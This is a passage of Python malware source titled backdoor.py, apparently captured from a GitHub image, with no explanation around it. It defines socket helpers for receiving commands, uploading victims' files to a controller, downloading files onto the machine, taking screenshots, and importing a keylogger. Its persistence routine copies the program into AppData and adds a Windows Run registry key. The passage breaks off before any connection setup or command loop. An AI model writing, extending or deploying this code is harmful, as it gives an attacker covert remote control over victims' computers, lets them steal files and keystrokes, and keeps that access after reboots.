 ```
```

```
#!/usr/bin/env python

# backdoor.py

import socket
import json
import subprocess
import time
import os
import pyautogui
import keylogger
import threading
import shutil
import sys

def reliable_send(data):
    jsondata = json.dumps(data)
    s.send(jsondata.encode())

def reliable_recv():
    data = ''
    while True:
        try:
            data = data + s.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def download_file(file_name):
    f = open(file_name, 'wb')
    s.settimeout(1)
    chunk = s.recv(1024)
    while chunk:
        f.write(chunk)
        try:
            chunk = s.recv(1024)
        except socket.timeout as e:
            break
    s.settimeout(None)
    f.close()

def upload_file(file_name):
    f = open(file_name, 'rb')
    s.send(f.read())

def screenshot():
    myScreenshot = pyautogui.screenshot()
    myScreenshot.save('screen.png')

def persist(reg_name, copy_name):
    file_location = os.environ['appdata'] + '\\' + copy_name
    try:
        if not os.path.exists(file_location):
            shutil.copyfile(sys.executable, file_location)
            subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v ' + reg_name + ' /t REG_SZ /d "' + file_location + '"', shell=True)
            reliable_send('[+] Created Persistence With Reg Key: ' + reg_name)
        else:
            reliable_send('[+] Persistence Already Exists')
    except:
        reliable_send('[+] Error Creating Persistence With The Target Machine')
```